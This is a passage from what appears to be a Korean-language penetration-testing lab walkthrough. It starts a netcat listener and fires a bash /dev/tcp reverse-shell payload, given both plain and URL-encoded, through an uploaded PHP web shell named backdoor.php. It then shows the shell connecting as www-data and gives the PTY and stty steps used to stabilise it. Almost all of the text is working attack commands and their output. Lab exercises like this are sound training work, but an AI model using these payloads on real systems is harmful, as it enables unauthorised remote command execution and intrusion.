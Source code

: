 ```bash
# 터미널 1에서
nc -lvnp 4444

# 예상 출력:
# listening on [any] 4444 ...
```

#### 5.3 리버스쉘 트리거

```bash
# 터미널 2에서 (YOUR_IP를 위에서 확인한 IP로 변경)
curl "http://localhost:9000/uploads/backdoor.php?cmd=bash+-c+'bash+-i+>%26+/dev/tcp/172.19.0.1/4444+0>%261'"

# URL 인코딩된 버전
curl "http://localhost:9000/uploads/backdoor.php?cmd=bash+-c+%27bash+-i+%3E%26+/dev/tcp/172.19.0.1/4444+0%3E%261%27"
```

#### 5.4 리버스쉘 연결 확인

**터미널 1에서**:
```bash
listening on [any] 4444 ...
connect to [172.19.0.1] from (UNKNOWN) [172.19.0.4] 52834
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
www-data@2c986cfb7431:/var/www/html/uploads$ whoami
whoami
www-data
www-data@2c986cfb7431:/var/www/html/uploads$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

### Step 6: 쉘 안정화

```bash
# Python PTY 생성
python3 -c 'import pty;pty.spawn("/bin/bash")'

# 환경 변수 설정
export TERM=xterm
export SHELL=/bin/bash

# Ctrl+Z (백그라운드)
# 호스트에서:
stty raw -echo; fg
# Enter 2번

# 화면 크기 설정
stty rows 38 columns 116
```

---